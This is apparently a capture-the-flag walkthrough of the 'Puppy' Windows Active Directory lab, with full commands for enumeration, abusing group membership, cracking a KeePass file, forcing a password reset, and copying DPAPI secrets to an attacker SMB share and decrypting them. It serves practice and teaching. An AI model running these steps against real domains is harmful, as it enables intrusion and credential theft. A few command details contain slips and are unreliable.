

# Puppy

Difficulty: Medium
OS: Windows
Category: Offensive
Date: 2026-02-24T05:14:03.641Z


I'll start this challenge with the following credentials: levi.james / KingofAkron2025!

### Reconnaissance

```bash
Port 53 Domain Simple DNS Plus
Port 88 kerberos-sec
Port 111 rpcbind?
Port 135 msrpc
Port 139 netbios-ssn
Port 389 ldap
Port 445 microsoft-ds?
Port 464 kpasswd5?
Port 593 ncacn_http
Port 636 tcpwrapped
Port 2049 mountd
Port 3260 iscsi?
Port 3268 ldap
Port 3269 tcpwrapped
Port 5985 MS HTTPAPI httpd
```

I enumerate users with **crackmapexec** or **netexec**

```bash
crackmapexec smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --users
```

I save the enumerated usernames to a file.

Then I add the domains in `/etc/hosts`

```bash
vim /etc/hosts

10.10.11.70 PUPPY.HTB DC.PUPPY.HTB
```

I perform some bloodhound enumeration with the user *levi.* I added DNS timeout so that it won’t disconnect directly.

```bash
bloodhound-python -dc DC.PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' -d PUPPY.HTB -c All --zip -ns 10.10.11.70 --dns-timeout 30
```

### Bloodhound Enumeration



I import the results into BloodHound, locate `levi`, mark the account as owned, and inspect its paths.

Apparently this will just leave me confused. So what I'll do is narrow down my search to know what my approach would be.

I open Levi's **Node Info** and examine group memberships, local administrator rights, execution rights, and outbound object control.

**GROUP MEMBERSHIPS:** I check which groups contain `levi.james` and what access they grant.

**LOCAL ADMIN RIGHTS:** I look for `AdminTo` edges identifying local administrator access to computers.

**EXECUTION RIGHTS:** I inspect execution and delegation relationships involving other computers.

**OUTBOUND OBJECT CONTROL:** I look for edges such as `GenericAll`, `GenericWrite`, `WriteDacl`, `WriteOwner`, and `ForceChangePassword`.

### Shares

If I enumerate the shares for `levi.james` I'll see there’s a `DEV` folder. This belongs to users who are part of the `DEVELOPERS@PUPPY.HTB` . Upon my enumeration, I can see that `levi.james` can add himself as a member for `DEVELOPERS@PUPPY.HTB` , through `HR@PUPPY.HTB` since levi is a member of HR group.


### User Foothold

I'll add levi to the developer group. I make an ldif file `modify.ldif`

```bash
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
```

I use `ldapmodify` tool

```bash
ldapmodify -x -H ldap://10.10.11.70 -D "levi.james@puppy.htb" -w 'KingofAkron2025!' -f modify.ldif
```

Now that levi is added, I'll explore the `DEV` share

```bash
smbclient //10.10.11.70/DEV -U "levi.james%KingofAkron2025!"
```

Then I'll get `recovery.kdbx`

```bash
get recovery.kdbx
```

For me to crack this, I need a tool from the public `John The Ripper` tool does not support this method yet. I'll install `keepassxs` also to open what’s inside.

```bash
sudo apt install keepassxc

git clone https://github.com/r3nt0n/keepass4brute

./keepass4brute/keepass4brute.sh recovery.kdbx rockyou.txt
# This will give the password 'liverpool'

keepassxc-cli export --format=xml recovery.kdbx > keepass_dump.xml
```

I inspect `keepass_dump.xml` and find the following credentials:

```bash
HJKL2025!
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
```

These passwords are associated by the existing users that I found earlier already. But I can also verify this with `nxc` or `crackmapexec` to see if any of these users are active.

```bash
crackmapexec smb 10.10.11.70 -u users.txt -p pass.txt
```

I'll find a user `ant.edwards:Antman2025!` I'll do another bloodhound enumeration with this user.

```bash
bloodhound-python -dc DC.PUPPY.HTB -u 'ant.edwards' -p 'Antman2025!' -d PUPPY.HTB -c All --zip --dns-timeout 30 -ns 10.10.11.70
```


I find out that `ANT.EDWARDS@PUPPY.HTB` can force change password for the user `ADAM.SILVER@PUPPY.HTB` because of the `GenericAll` privilege.

```bash
rpcclient -U 'puppy.htb\Ant.Edwards%Antman2025!' 10.10.11.70
rpcclient $> setuserinfo ADAM.SILVER 23 Password@123!
```

I'll check if this account is enabled

```bash
nxc smb 10.10.11.70 -u 'ADAM.SILVER' -p 'Password@123!'
<SNIP>
PUPPY.HTB\ADAM.SILVER:Password@987 STATUS_ACCOUNT_DISABLED
```

Since the account is disabled, I'll enable this using `bloodyAD` tool

```bash
bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p Antman2025! remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE
```

I do an `evil-winrm` to the user with the account `ADAM.SILVER`

```bash
evil-winrm -i 10.10.11.70 -u adam.silver -p Password@123!
```

Then I get the flag that’s sitting in Desktop directory.

### Root

Checking for files at `C:\Backup` I found a zip file named `site-backup-2024-12-30.zip`. I download it and unzip. After unzipping I'll find a hidden xml file in it, then inspect it.

I'll see the following snippet for credentials.

```bash
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
```

I'll login with the following credential

```bash
evil-winrm -i 10.10.11.70 -u steph.cooper -p ChefSteph2025!
```

I upload a `winPEAS` in the target to recon for privilege escalation methods. I find that there are interesting output in `DPAPI`

```powershell
=========|| Checking for DPAPI RPC Master Keys
Use the Mimikatz 'dpapi::masterkey' module with appropriate arguments (/rpc) to decrypt
https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi
found: C:\Users\steph.cooper\AppData\Roaming\Microsoft\\Protect\
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\CREDHIST
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\SYNCHIST

=========|| Checking for DPAPI Cred Master Keys
Use the Mimikatz 'dpapi::cred' module with appropriate /masterkey to decrypt
You can also extract many DPAPI masterkeys from memory with the Mimikatz 'sekurlsa::dpapi' module
https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi

    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9

    Directory: C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   8:14 AM          11068 DFBE70A7E5CC19A398EBF1B96859CE5D
```

I'll make a shared folder and setup an smbserver to get files. After checking the directory these things are hidden. So I need to do the following command to get them.

```powershell
Get-ChildItem -Force
```

```bash
mkdir -p share
impacket-smbserver share ./share -smb2support
```

Now I copy the files from the target to my smb server.

```bash
copy "C:\Users\steph.cooper\Appdata\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" "\\<vpn ip>\share\masterkey_blob"

copy "C:\Users\steph.cooper\Appdata\Roaming\Microsoft\CredentialsC8D69EBE9A43E9DEBF6B5FBD48B521B9" "\\<vpn ip>\share\credential_blob"
```

Then I'll decrypt the key

```bash
impacket-dpapi masterkey -f masterkey_blob -password ChefSteph2025! -sid S-1-5-21-1487982659-1829050783-2281216199-1107

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

I'll decrypt the blob-file

```bash
impacket-dpapi credential -f credential_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

With this password, I can login to the target

```bash
evil-winrm -i 10.10.11.70 -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'
```

I can also do `impacket-secretsdump` to get the NTLMv2 hash but this will suffice.

After logging in, I retrieve the flag from the Desktop directory.
